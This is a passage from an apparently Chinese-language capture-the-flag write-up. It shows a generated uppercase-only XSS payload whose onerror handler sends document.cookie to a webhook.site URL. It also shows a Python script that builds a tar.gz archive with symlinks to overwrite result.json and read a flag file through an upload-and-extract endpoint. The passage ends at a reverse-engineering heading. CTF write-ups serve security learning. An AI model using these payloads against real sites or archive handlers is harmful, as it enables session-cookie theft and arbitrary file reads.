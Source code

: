 ```python
payload += f"COOKIE={gen_str('cookie')};"
payload += f"A[HREF]={gen_str(f'javascript:location[HREF]=`{gen_unicode_str(webhook)}`+document[COOKIE]')};"
payload += f"A[CLICK]``;"
payload += ">"

print(payload)
```
构造的原生payload
```html
<A ID=A HREF=ABCDEFGHIJKLMNOPQRSTUVWXYZ:>
<IMG SRC ONERROR=X=A+``;HREF=href;CLICK=click;COOKIE=cookie;A[HREF]=javascript:location[HREF]=https://webhook.site/b847bcd2-a4a3-4797-b518-7b33b3ef2012?+document.cookie;A[CLICK]``;>
```
ONERROR里的操作相当于修改A的属性,在执行X=A+\`\`后,X=*abcdefghijklmnopqrstuvwxyz:* 
根据wp里,是通过`use HTMLAnchorElement.toString to get lowercase characters`
,`[HREF]=>.href`,然后执行点击事件

### archive_stat_viewer
#zip

可以上传文件,存在解压方法,猜测上传软链接,试了好几个,结果只支持tar和gz
```python
@app.get('/results/<archive_id>')
def download_result(archive_id):
	if 'archives' not in session:
		session['archives'] = []
	archive_id = Path(archive_id).name
	return send_file(UPLOAD_DIR / archive_id / 'result.json')
```
可以上传软连接覆盖result.json来读取文件
步骤:上传任意一个gz文件,获取它的`<archive_id>`,然后上传一个恶意软连接zip文件,覆盖它的result.json,再访问就可以读取flag
*生成脚本*
```python
import tarfile

with tarfile.open('exploit.tar.gz', 'w:gz') as tar:
    # First file
    info1 = tarfile.TarInfo("./test.txt")
    info1.type = tarfile.SYMTYPE
    info1.linkname = "/" 
    tar.addfile(info1)

    # Second file
    info2 = tarfile.TarInfo("./test.txt/web-apps/src/archives/c7e24804-b1a0-4d25-af1f-10b998083453/result.json")
    info2.type = tarfile.SYMTYPE
    info2.linkname = "/web-apps/src/flag.txt" # or /
    tar.addfile(info2)
```


# reverse
### ez-rev
